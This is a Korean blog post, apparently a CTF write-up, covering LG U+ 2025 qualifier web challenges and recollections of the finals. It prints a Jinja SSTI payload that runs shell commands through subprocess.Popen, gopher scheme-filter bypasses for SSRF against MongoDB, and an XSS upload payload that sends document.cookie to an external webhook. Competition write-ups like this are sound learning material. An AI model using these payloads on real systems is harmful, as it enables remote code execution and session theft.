





예선은 문제 풀이 위주로, 본선은 후일담 위주로 써보겠다.

# 예선

## compound interest


메모 기능에서 SSTI가 터져 RCE 할 수 있다

```
{{"".__class__.__base__.__subclasses__()}}
```

subclasses 나열시켜서 `subprocess.Popen` 값 인덱스 찾은 다음에 플래그 읽어오면 된다.

```
{{"".__class__.__base__.__subclasses__()[382]('cat flag.txt',shell=True,stdout=-1).communicate()}}
```

`lguplus2025{ece1436847b6ca03c17cfe98b30c5874de755373aa9ae16e2b32047c02dee73b}`

## cowfarm

```js
app.get("/flag", async (req, res) => {
  const { id } = req.query;
  if (!id) {
    return res.status(400).send("ID is required");
  }
  const cow = await Animal.findOne({ id });
  if (!cow) {
    return res.status(404).send("Cow not found");
  }

  if (cow.name !== "cow") {
    return res.status(400).send("Cow is not a cow");
  }

  if (cow.age !== 1) {
    return res.status(400).send("Cow is not 1 year old");
  }

  if (cow.breed !== "super_cow") {
    return res.status(400).send("Cow is not a super cow");
  }

  res.send(`wow, you've got a super cow!! here is your flag: ${process.env.FLAG}`);
});
```

DB에 있는 값이 다음 조건을 만족시키면 플래그를 얻을 수 있다.

```js
app.get("/new_cow", async (req, res) => {
  const { name, age } = req.query;

  if (!name) {
    return res.status(400).send("Name is required");
  }

  if (!age) {
    return res.status(400).send("Age is required");
  }
  try {
    const id = crypto.randomUUID();
    const cow = await Animal.create({ id: id, name: name, age: age, breed: "cow" });
    return res.send(cow);
  } catch (error) {
    return res.status(500).send("Internal server error");
  }

})
```

`name`과 `age`는 임의로 설정할 수 있으나, `breed`를 `super_cow`로 만들긴 어려워보인다.

```js
async function getUrlStatusCode(_url) {
  return new Promise((resolve, reject) => {
    if (_url.toLowerCase().startsWith("gopher://") || _url.toLowerCase().startsWith("telnet://") || _url.toLowerCase().startsWith("file:")) {
      reject(new Error("Protocol not allowed"));
      return;
    }

    const urlBuffer = Buffer.from(url.parse(_url).href);
    
    execFile("curl", ["-w", "%{http_code}", "-o", "/dev/null", "-I", "-L", urlBuffer], (error, stdout, stderr) => {
      if (error) {
        reject(error);
        return;
      }

      const result = stdout;
      resolve(result);
    });
  });
}

app.get("/curl", async (req, res) => {
  const { url } = req.query;
  if (!url) {
    return res.status(400).send("URL is required");
  }

  try {
    const code = await getUrlStatusCode(url);
    return res.send(code);
  } catch (error) {
    console.error(error);
    return res.status(500).send("Internal server error");
  }
});
```

필터링을 적절히 우회해 Mongo DB SSRF를 성공시켜야한다.

다양한 우회방법들이 나왔는데
- `gopher:\\`
- `(BLANK)gopher://`
- `gopher:/`

어느걸 쓰던 간단하게 우회할 수 있다.

`-L` 플래그가 설정 되어 있다는 점을 통해 내 서버로 curl 요청 -> gopher로 리다이렉트 시켜보려했으나 잘 안 되었다.
curl은 -L로 리다이렉트 될 때 처음 입력된 url의 scheme와 redirect 되는 scheme이 같은지 검증하는 절차를 거친다고 한다.

암튼 그래서 결과적으로는 `cow.breed` 값을 수정하는 mongo db raw packet을 wireshark로 tcp dump 딴 후에 gopher로 ssrf 할 수 있었다고 한다.

[2023 Dice CTF](https://www.youtube.com/watch?v=sVtRwp9R-_8)에서 비슷한 기법이 나왔었으니 참고하자

`lguplus2025{4b0158738ba67e82f71d4c3242d89071}`

## simple-image-viewer

간단한 트릭 문제였다.

apache로 돌아가는 Image Viewer 서비스다. 봇이 주어지는걸로 봐서 XSS 해야한다는걸 유추할 수 있다.

코드는 꽤 간단하다.

```js
app.post('/upload', upload.single('image'), (req, res) => {
  if (!req.file) {
    return res.status(400).send('No file uploaded.');
  }

  if (req.file.size > 1024 * 1024) {
    return res.status(400).send('File size is too large.');
  }

  if (!['image/png', 'image/jpeg', 'image/gif'].includes(req.file.mimetype)) {
    return res.status(400).send('Invalid file type.');
  }

  //filename.filename.png
  console.log(path.extname(req.file.filename))
  console.log(path.extname(req.file.filename).slice(1))
  if (!['png', 'jpg', 'jpeg', 'gif'].includes(path.extname(req.file.filename).slice(1))) {
    return res.status(400).send('Invalid file extension.');
  }

  res.redirect(`/?image=${req.file.path}`);
});
```

문제 풀어본 사람들은 알겠지만 그냥 XSS 할 벡터가 안보인다.

취약점은 이미지 업로드에서 터진다

https://x.com/YNizry/status/1582733545759330306

해당 게시물에 따르면 apache는 이름이 `.`으로만 되어있는 파일에 대해 Content-Type을 반환하지 않는다고 한다.

따라서 `...png` 같은 이름으로 파일을 업로드하면 이미지로 로드되지 않고 파일 본문을 html로 포함하게 되어 XSS가 가능하다.

```
------WebKitFormBoundaryXWCDORG7efpmqeyr
Content-Disposition: form-data; name="image"; filename="...png"
Content-Type: image/png

<script>location.href="https://ijvxjui.request.dreamhack.games?q="+document.cookie</script>
------WebKitFormBoundaryXWCDORG7efpmqeyr--
```

그대로 제출하면 웹훅으로 플래그 날아온다.

`http://3.36.14.255:3000/report?path=uploads/3f64fdf5-529b-4b00-94c2-e5b90819c473/...png`



`lguplus2025{50eb1bcbe258aff5e32155c406aa24df}`

---

# 본선

[le0s1mba](https://dreamhack.io/users/37706), [yeonba](https://dreamhack.io/users/53840), [btb](https://dreamhack.io/users/33534) 세명컴고 팀원 3명이랑 `대성없는 대성팀`으로 예선 턱걸이해서 어찌저찌 본선에 갔다왔다.

결과부터 말하자면 예선과 본선 모두 그리 좋지 못한 성적으로 털려버렸다. 재미있게 즐기고 오긴했는데 팀원들한테 민폐끼친거 같아 죄송하다

## 대회장
10월 24일에 본선이 열렸다. 하필 내 고등학생으로써의 마지막 학교 축제랑 겹치긴 했는데 뭐 LG 본선 정도면 빠지고 갈 이유가 충분했다.



6시에 일어나서 지하철 타고 마곡나루로 갔고 LG 마곡사옥에 도착했다.  
다른 대회들이랑 다르게 뭘 많이 줘서 좋았다. 무탠다드 후드집업이랑 스티커랑 그런거 받았는데 입고 다녀도 될 거 같다.




팀명따라서 대성형 프사를 팀 로고로 박았다

## Live fire
처음에 개회사랑 대회 일정 설명 듣고 바로 대회 시작했다.

대회는 `Live fire`, `Scenario`, `Jeopardy` 세 분야가 출제 되었다. CCE 이후로 공방전은 볼 일 없을줄 알았는데 갑자기 나와서 당황했다.
다 그렇듯이 취약한 웹서버가 하나씩 주어지고 15분 주기로 운영진 측에서 공격한다. 취약점 7개 숨어있는거 패치해서 업로드하면 됐다.

`Golang + 파이썬` 기반 서버가 주어졌는데 파일 수가 CCE때보다 많았다.. 아마 봐야할 부분만 대충 40개는 되었을거다.
1시간 정도 지나고 다른 팀들 스코어보드를 보니 금방 취약점 한 두개씩은 패치했는데 초반에 고랭을 보고 겁을 먹었던지라 시작한지 3시간쯤 지나서야 sqli 하나를 패치했고 대회 후반에 LLM 힘을 빌려 취약점 2개를 더 방어하면서 총 3개를 방어할 수 있었다.
패치를 진짜 늦게하고 후반에 SLA Failed 뜬 것도 꽤 있어서 얘가 점수를 진짜 많이 깎아먹었다. 

## JeoPardy
고등학생, 대학생들 다 나온 대회다 보니 모든 분야가 고난이도로 출제 되었다.

내가 잡았던 웹은 2문제가 나왔으며 각각 4솔, 0솔이었다.

첫번째 문제 대충 기억나는대로 설명을 해보겠다.

내부망이랑 외부망이 분리되어있으며 내부, 외부 모두 게시판 기능을 하는 서버가 돌아가고있다.
외부망에선 내부망으로 POST 요청 보낼 수 있는 api를 제공하고 있었고, 내부망 게시판에 있는 flag를 읽는게 목표였다.

내부망 게시판에서 XSS가 터지기에 그거 가지고 [AngularJS CSP Bypass](https://portswigger.net/research/ambushed-by-angularjs-a-hidden-csp-bypass-in-piwik-pro)해서 플래그 읽어오면 되는 꽤나 간단한 기믹의 문제였다.

익스 방향은 맞았지만 csp bypass를 제대로 못했다 집와서 코드 한 줄 추가해 돌려보니 잘 읽어와지더라..

## After party

대회 끝나고 네트워킹 파티 했다. 조는 신청한 사람들 중에 랜덤으로 정해졌고 우리 테이블에는 가끔 드림핵이랑 대회에서 만나던 두 분과 LG 멘토님, 대학생 한 분 이렇게 계셨다.
같이 밥먹고 소소한 활동하고 했는데 재미있었다.

난 적당히 내향적인지라 대화에 많이 참여하고 그런건 없었지만 중간중간 진로 관련해서 이것저것 이야기해보고 현업에 계신 다른분들 얘기 들으니 확실히 인사이트가 쌓이는 느낌이 들었다.

암튼 좋은 경험이었다. 다음 대회때는 수상을 목표로 해보도록하겠다.